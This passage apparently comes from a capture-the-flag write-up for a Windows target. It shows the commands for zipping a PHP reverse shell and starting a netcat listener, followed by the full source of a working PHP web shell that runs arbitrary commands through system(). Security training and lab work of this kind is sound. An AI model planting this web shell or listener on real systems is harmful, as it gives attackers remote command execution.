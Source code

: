 ```
vi revshell.php
zip revshell.zip revshell.php
nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (22) (7) (1).png" alt=""><figcaption></figcaption></figure>

I realized my reverse shell wasn't working as it is a Windows box. I uploaded a web shell and ran commands to realize this.

### PHP web shell

```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```
